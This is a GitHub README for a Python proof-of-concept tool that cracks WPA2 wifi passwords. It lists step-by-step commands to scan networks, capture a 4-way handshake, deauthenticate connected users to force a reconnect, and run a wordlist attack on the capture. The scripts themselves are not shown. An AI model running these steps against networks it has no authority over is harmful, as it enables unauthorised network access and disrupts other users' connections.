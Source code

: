 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Requirements
* Python >= 3.6
* pbkdf2 == 1.3
* scapy >= 2.4.3

## Installation
  ```bash
  git clone https://github.com/Njord0/WPA2-Crack.git
  cd WPA2-Crack
  pip3 install -r requirements.txt
  ```
  
## Usage
  The interface needs to be in monitor mode. (No check is done yet, it is just not going to work)
  The first step is to discover wifi network around us, for this we can use the `scan_wifi.py` script:
  ```sh
  sudo python3 scan_wifi.py -i wlan0mon
  ```

  For every wifi networks around you, you will be able to see the channel, BSSID and SSID
  We are now ready to capture the 4-way handshake for a choosen network + a beacon frame from this network.
  ```sh
  python3 capture_handshake.py -i wlan0mon -b xx:xx:xx:xx:xx:xx -c 1 -o handshake.pcap
  ```
  This script is now waiting for a device to connect to the network in order to capture the 4-Way handhsake, we can use the deauth.py script to disconnect user from the network:

  ```sh
  python3 deauth.py -i wlan0mon -b xx:xx:xx:xx:xx:xx
  ```
  
  Once we captured the handshake we are ready to start cracking the password
  ```sh
  python3 crack_password -w wordlist -p handshake.pcap
  ```
  If the password is in the wordlist, it will be found and displayed to the screen.

  Here is a short video: https://www.youtube.com/watch?v=U7SkzveOCqs
  
  ### Changelogs
  ```
  v2.0.0
  ------
  * Added a beacon frame in the capture, to avoid error when user had to enter the SSID in crack_password.py script
  * Code refactoring, espacially tab changed into spaces !
  * Renamed files name
  * Added option to enter output filename in capture_handshake.py script
  * Deleted SSID option in crack_password.py script
  ```

